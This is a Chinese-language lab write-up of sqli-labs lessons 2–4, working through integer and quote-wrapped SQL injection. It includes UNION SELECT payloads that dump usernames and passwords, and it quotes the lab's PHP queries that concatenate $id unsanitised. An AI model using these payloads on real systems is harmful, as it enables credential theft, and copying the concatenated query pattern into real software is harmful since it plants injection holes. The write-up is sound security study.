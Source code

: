 ### less-2---整型注入，基于错误的GET

##### 1、访问less-2的页面

###### 1.1、地址为： ip/sqli-labs/Less-2
![Alt text](./../../images/sql/less-2/page.png 'page')

##### 2、注入

###### 2.1、根据页面提示，输入ID作为带数值的参数---判断是否有注入点

![Alt text](./../../images/sql/less-2/id.png 'id参数')

根据之前less-1的，id后面接入英文单引号空格报错，判断可能有注入点

后面输入之前的 ``` ?id=1 and '1'='1 ``` 拼接也是报错，换一种思路，如果后面的``` '1'='1 ``` 不带单引号会出现什么效果呢？发现是正常访问，那么我就不客气了(滑稽)

![Alt text](./../../images/sql/less-2/success.png 'success')

根据之前 less-1 的注入语句进行拼接，然后一步步爆出数据库的数据

```
?id=-1 union select 1,2,(group_concat(id,'-',username,'-',password)) from security.users
```

![Alt text](./../../images/sql/less-1/usersInfo.png 'success')

总结：less-2的课程还是比较容易的，只是和less的注入类型更改了,从之前的需要单引号进行包裹，变成了直接变成变量，具体可以参考sqli-labs的源码的sql语句----id直接作为参数，拼接在sql语句上，如下，less-1和less-2 进行对比

```
// connectivity less-1
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";


// connectivity less-2
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

### less-3---字符型注入，基于错误的单引号变形

```

输' 报错，输入' --+仍报错，输入 and 1=1 /and 1=2无反应
输入') 报错，输入') --+成功显示，输入') and 1=1 --+成功显示，输入and 1=2 报错判断为字符型单引号变形注入

判断为 ')

3?id=-1') union select 1,2,(group_concat(id,'-',username,'-',password)) from security.users --+

按照之前的联合查询的语句，爆出users表的数据

```

![Alt text](./../../images/sql/less-2/3-userinfo.png 'success')

查看源码中的写法

```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

### less-4---字符型注入，基于错误的双引号变形

```

输' 报错，输入' --+仍报错，输入 and 1=1 /and 1=2无反应
输')报错，输入') --+仍报错，输入 and 1=1 /and 1=2无反应
输入") 报错，输入") --+成功显示，输入") and 1=1 --+成功显示，输入and 1=2 报错判断为字符型单引号变形注入

判断为 ")

3?id=-1") union select 1,2,(group_concat(id,'-',username,'-',password)) from security.users --+

按照之前的联合查询的语句，爆出users表的数据

```

![Alt text](./../../images/sql/less-2/doubledot.png 'success')

查看源码中的写法

```

$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```